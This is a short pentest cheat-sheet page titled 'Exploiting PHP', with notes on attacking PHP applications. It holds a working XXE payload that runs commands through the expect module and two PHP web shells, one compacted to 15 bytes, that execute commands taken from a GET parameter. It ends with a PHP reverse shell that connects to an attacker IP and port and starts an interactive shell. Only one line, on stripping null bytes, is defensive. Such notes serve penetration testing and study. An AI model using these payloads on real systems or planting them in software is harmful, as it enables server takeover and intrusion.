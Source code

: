 # Exploiting PHP

author:: Nathan Acks  
date:: 2022-07-11

# RCE via XXE

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [XXE (XML External Entity) Attacks](xml-external-entity-attacks.md)

# The Poison Null Byte

PHP string parsing is susceptible to the poison null byte.

The best way to defend against these attacks is to simply sanitize strings by explicitly removing any null bytes they contain.

```php
$sanitized_string = str_replace(chr(0), '', $original_string);  
```

* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)
* [The Poison Null Byte](poison-null-byte.md)

# Web-Based RCE

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

A slightly spruced-up version of this is available on Kali Linux as `/usr/share/webshells/php/simple-backdoor.php`.

On space-constrained systems, you can compact this down to just 15 bytes:

```php
<?=`$_GET[1]`?>
```

* [Podalirius on Twitter](https://twitter.com/podalirius_/status/1488921781637365771)

# Reverse Shell

Check out `/usr/share/webshells/php/php-reverse-shell.php` on Kali Linux. Note that this only works on UNIX-like systems.

Alternately, a *very* simple shell (suitable for running at the command line):

```php
$attacker_ip = "10.0.0.1";
$attacker_port = 1234;

$sock = fsockopen($attacker_ip, $attacker_port);

exec("/bin/sh -i <&3 >&3 2>&3");
```

Catch it with netcat or socat.
